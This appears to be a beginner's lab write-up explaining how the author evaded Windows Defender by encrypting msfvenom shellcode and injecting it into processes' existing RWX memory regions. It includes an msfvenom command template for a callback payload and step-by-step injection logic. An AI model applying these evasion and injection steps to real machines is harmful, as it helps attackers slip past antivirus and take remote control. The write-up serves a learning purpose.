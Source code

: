 ### Introduction

So I don't know why, but i've done some malware analysis (still a noob btw), i've also tried some malware development(still a noob btw) in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender and i stumbled on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

And before you say it, yes, i know, it's already a known fact, it's easy to bypass windows...but to do it yourself is still learning. It's one thing
to just take a working code and just run it, but it's another thing to take the code understand it and modify it to the way you like.
That's why i learned reverse engineering, because you need to be able to understand the inner workings of anything you touch. I think
that's what make the difference between people in this field!

I guess you already know which one I chose to start with, i chose the latter.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2.
In that blog he used the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted it by using the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)


### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Then I Encrypted the payload, I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions and also to be able to immediately close the handle i opened)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section
4. Build the executable as Release and upload it to your windows vm

![POC](poc.png)

### Conclusion

I think, that next i want to either try a dll sideloading and then move on to using Loki with electron apps that also uses dll sideloading attacks,
there's a good write-up on it [here](https://www.ibm.com/think/x-force/bypassing-windows-defender-application-control-loki-c2), if you want to take a head start!

